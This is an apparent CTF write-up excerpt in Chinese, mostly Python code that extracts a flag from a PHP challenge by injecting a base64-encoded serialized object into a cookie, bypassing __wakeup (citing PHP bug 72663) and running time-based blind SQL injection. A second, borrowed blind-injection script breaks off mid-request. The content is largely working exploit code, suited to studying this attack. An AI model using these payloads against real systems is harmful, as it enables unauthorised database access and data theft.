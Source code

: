 ```Python
python 脚本：
import base64
import requests
import datetime


s = requests.session()
flag = ''


#list1=[6,9,12,13,15,18,20,21]
#list2=[12,15,20]
for i in range(1,22):
	sqlstr = "' union select 1`'`,1, sleep(ord(substr(flag,"+str(i)+",1))-95) from flag`"
	test = '''O:5:"login":4:{s:3:"uid";s:2:"13";s:4:"name";s:'''+ str(len(sqlstr))+''':"''' + sqlstr + '''";s:4:"pass";s:32:"cec70fd46e477b43085f881ae15cc173";}'''
	payload = 'user=' + base64.b64encode(test)
	#print test


	starttime = datetime.datetime.now()
	header = {'Cookie':payload}
	result = s.post('http://web3.08067.me/wakeup/index.php', headers = header)
	endtime = datetime.datetime.now()
	a = (endtime - starttime).seconds
	if(a!=0):
		b = chr(a+95)
	else:
		b = '*'
	print b
	flag = flag+b


print flag
```

##### 序列化个数大于实际个数的时候不会调用__wakeup函数，直接进入析构函数

[https://bugs.php.net/bug.php?id=72663](https://bugs.php.net/bug.php?id=72663)

[http://www.tuicool.com/articles/aMfeEfJ](http://www.tuicool.com/articles/aMfeEfJ)

[https://bugs.php.net/bug.php?id=72663](https://bugs.php.net/bug.php?id=72663)

##### 别人的盲注代码

```python
import hackhttp
import time
def base64(s):
    import base64
    return base64.b64encode(s)
hh = hackhttp.hackhttp()
flag = ""
for i in range(1,40):
    for j in range(33,125):
        payload = "admin' and (select 1 from flag where ascii(mid(flag,%d,1))=%d) and (`'`.``.username=1 or sleep(3)) #"% (i,j)
        payload_len = len(payload)
        serialize_str = '''O:5:"login":5:{s:4:"name";s:%d:"%s";s:4:"pass";s:32:"21232f297a57a5a743894a0e4a801fc3";}''' % (payload_len,payload)
        raw = '''GET /wakeup/index.php HTTP/1.1
Host: web3.08067.me
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
```